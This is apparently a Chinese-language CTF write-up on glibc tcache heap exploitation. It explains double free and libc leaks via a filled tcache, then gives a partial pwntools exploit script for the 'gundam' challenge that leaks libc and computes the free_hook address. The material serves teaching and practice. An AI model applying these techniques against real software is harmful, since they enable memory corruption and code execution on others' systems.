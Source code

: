 ## pwn中利用方法

### 二次释放

由于tcahe 检测在free和malloc 靠前位置导致一些检测未进行。因此在tcache中我们可直接free 二次同一堆块，即可照成二次释放。

![image-20210418131641002](image-20210418131641002.png)



### 塞满tcahe泄露libc

我们可以通过free 7个 bins塞满tcahe后，释放一个unsortedbin来泄露地址。

![image-20210418132000075](image-20210418132000075.png)

#### 例题：gumad

分析题目，利用连续free 7个chunk 塞满tcache，再释放一个unsortedbin来泄露地址。

再利用二次释放,改fd带chunk 0指针存放处,改chunk 0 fd指针为free_hook.再在free_hook处创造chunk 写入shell.

```python
from pwn import *
#p=remote('challenge-6759487098ea2b0b.sandbox.ctfhub.com',23648)
p=process('./gundam')
#context.log_level = 'debug'
def build(name):
    p.sendlineafter("choice : ","1")
    p.sendlineafter("gundam :",name)
    p.sendlineafter("gundam :",'0')

def visit():
    p.sendlineafter("choice : ",'2')

def free(idx):
    p.sendlineafter("choice : ",'3')
    p.sendlineafter("Destory:",str(idx))

def blow_up():
    p.sendlineafter("choice : ",'4')


for i in range(9):
	build('a'*0x10)

for i in range(8):
	free(i)
blow_up()
for i in range(7):
	build('a'*0x4)
build('B'*7)
blow_up()
visit()
addr = (p.recvuntil("Type[7]",drop=True)[-6:].ljust(8,'\x00'))
print(addr)
#gdb.attach(p)
print(hex(u64(addr)))
base=u64(addr)-0x3afca0
print(hex(base))
free_hook=base+0x3b18e8
print('4')
free(5)
free(4)
free(3)
```